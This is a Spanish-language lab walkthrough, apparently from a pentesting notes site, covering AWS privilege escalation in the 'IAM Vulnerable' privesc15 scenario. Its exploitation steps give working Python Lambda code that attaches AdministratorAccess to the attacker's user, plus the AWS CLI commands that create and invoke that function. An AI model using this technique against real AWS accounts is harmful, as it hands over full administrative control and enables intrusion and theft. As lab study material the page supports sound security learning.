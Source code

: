 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassExistingRoleToNewLambdaThenInvoke

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc15

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc15
{% endembed %}

Un atacante con los permisos <mark style="color:green;">iam:PassRole</mark> , <mark style="color:green;">lambda:CreateFunction</mark> y <mark style="color:green;">lambda:InvokeFunction</mark> puede escalar privilegios pasando un rol de IAM existente a una nueva función de Lambda que incluye código para importar la biblioteca de AWS relevante para el lenguaje de programación de su elección, y luego usándola para realizar las acciones de su elección. Para este ejercicio se simulará que es una auditoria post autenticación (habiendo obtenido las credenciales por algún otro medio previo).

### Configuración Inicial

Usuario del laboratorio: privesc15-PassExistingRoleToNewLambdaThenInvoke-user

La cuenta de AWS debe contener un rol existente que incluya el permiso iam:AttachUserPolicy y las funciones lambda deben poder asumir este rol.

{% code title="assumeRolePolicy.json" overflow="wrap" %}
```json
{
     "Version": "2012-10-17",
     "Statement": [
         {
            "Sid": "VisualEditor0",
             "Effect": "Allow",
             "Action": "iam:AttachUserPolicy",
             "Resource": "arn:aws:iam::*:user/*"
         }
     ]
}
```
{% endcode %}

Luego las políticas asociadas al usuario deben ser las siguientes:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption><p>Permisos mínimos para escalar privilegios </p></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.



### Explotación

#### Paso 1

En este laboratorio, se tiene que iniciar utilizando el permiso <mark style="color:green;">**lambda:Createfunction**</mark> para crear una función lambda maliciosa en Python que tendrá el código para adjuntar una política de altos privilegios al usuario inicial _privesc15_.

<pre class="language-python" data-title="code.py" data-overflow="wrap"><code class="lang-python">import boto3

def lambda_handler(event, context):
    # crea un cliente de IAM usando la biblioteca Boto3
    client = boto3.client('iam')
    
    # adjunta la política "AdministratorAccess" al usuario 
<strong>    response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user',
</strong><strong>    PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
</strong>    
    # devuelve la respuesta de la API de IAM de AWS
    return response

</code></pre>

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

#### Paso 2

Llamar la función maliciosa aprovechando el privilegio de <mark style="color:green;">**lambda:InvokeFunction**</mark> para invocar dicha función y que finalmente el usuario inicial adquiera el rol de administrador.

{% code overflow="wrap" %}
```bash
aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile privesc15
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Con estos pasos ya se habrá ejecutado la escalación de privilegios, se puede observar con el siguiente comando:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>







